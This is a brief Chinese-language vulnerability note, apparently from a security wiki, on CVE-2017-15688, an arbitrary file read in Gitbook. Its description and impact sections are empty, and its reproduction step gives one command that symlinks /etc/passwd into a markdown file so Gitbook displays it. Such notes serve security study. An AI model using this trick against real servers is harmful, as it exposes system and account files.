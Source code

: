 # （CVE-2017-15688）Gitbook 任意文件读取

> 原文：[http://book.iwonder.run/0day/Gitbook/CVE-2017-15688.html](http://book.iwonder.run/0day/Gitbook/CVE-2017-15688.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

创建一个 md 文件，代码用以下

```
ln -s /etc/passwd ./passwd.md 
```

![image](img/62ac34db923cfce62e607ad28028b41d.png)

